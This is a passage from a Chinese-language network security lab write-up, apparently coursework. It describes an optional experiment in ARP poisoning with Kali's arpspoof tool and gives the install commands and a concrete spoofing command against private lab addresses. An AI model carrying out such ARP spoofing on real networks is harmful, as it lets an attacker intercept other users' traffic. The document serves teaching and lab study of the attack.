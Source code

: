 ## 实验三（可选）使用自动化工具完成 ARP 投毒劫持实验

**`kali-arpspoof` 工具**：通过伪造 ARP 将来自 LAN 上的目标主机（或所有主机）的数据包重定向到 LAN 上的另一台主机回复。 这是在交换机上嗅探流量的一种非常有效的方法。

在**攻击者主机**上使用 `kali-arpspoof` 工具进行中间人 `arp 投毒`：

```shell
# 下载并安装arpspoof
sudo apt update && apt install -y dsniff ssldump
# 查看arpspoof使用手册
man arpspoof
# 劫持
# sudo arpspoof -i eth0 -t <想要劫持的目标主机>  <想要伪装成的主机ip>
sudo arpspoof -i eth0 -t 172.16.111.112 172.16.111.1
```

![](./img/安装kali-arpspoof工具.jpg)

![](./img/查看arpspoof手册.jpg)
